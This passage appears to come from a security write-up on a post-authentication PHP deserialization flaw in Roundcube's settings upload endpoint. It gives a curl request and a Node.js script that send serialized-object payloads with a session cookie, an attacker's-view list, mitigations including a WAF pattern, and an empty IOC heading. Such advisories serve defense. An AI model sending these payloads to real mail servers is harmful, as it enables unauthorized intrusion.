 ```bash
curl -X POST http://target/roundcube/program/actions/settings/upload.php   -d '_from=O:8:"ExploitX":0:{}'   -b 'roundcube_sessid=VALID_SESSION'
```

### Node.js Automated Test Script

```javascript
import fetch from 'node-fetch';

const payloads = [
  'O:8:"ExploitX":0:{}',
  'O:5:"TestX":0:{}'
];

async function scan() {
  for (const p of payloads) {
    const res = await fetch('http://target/roundcube/program/actions/settings/upload.php', {
      method: 'POST',
      headers: { 'Cookie': 'roundcube_sessid=VALID_SESSION' },
      body: `_from=${encodeURIComponent(p)}`
    });
    console.log(`[+] Sent payload: ${p}, Status: ${res.status}`);
  }
}

scan();
```

---

## 7️⃣ Hacker Perspective

- Post-auth means first compromise the account, then execute code.  
- `unserialize()` = red alert; a golden opportunity for attackers.  
- This bug can lead to **domain-wide compromise** in mail servers.  
- Exploit code is already public (Metasploit / Exploit-DB). If unpatched → high risk.

---

## 8️⃣ Mitigation & Defense

- **Patch:** Update Roundcube → 1.5.10 / 1.6.11 or later.  
- **Log monitoring:** Watch for `_from=` unusual requests.  
- **WAF rules:** Block `unserialize` patterns (e.g., `O:\d+:`).  
- **Harden system:** Limit webmail process privileges.  
- **Credential hygiene:** Post-auth exploitation highlights credential reuse risks.

---

## 9️⃣ Indicators of Compromise (IOC)

